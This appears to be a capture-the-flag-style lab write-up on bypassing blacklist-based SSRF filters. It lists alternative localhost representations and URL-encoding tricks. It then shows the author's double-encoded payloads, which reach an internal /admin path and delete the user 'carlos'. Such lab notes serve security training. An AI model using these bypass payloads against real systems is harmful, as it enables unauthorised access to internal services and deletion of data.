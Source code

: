 ## SSRF with blacklist-based input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

## Challenge

--> In this lab we have to bypass a basic SSRF protection by some url encoding or using some localhost alternatives.

So i bypassed the stackApi request with this request.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![](Attachments/Pastedimage20220220095657.png)

And after that same process as previous challenges!

--> I used this payload and deleted the carlos's account :

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

And we solved the lab!
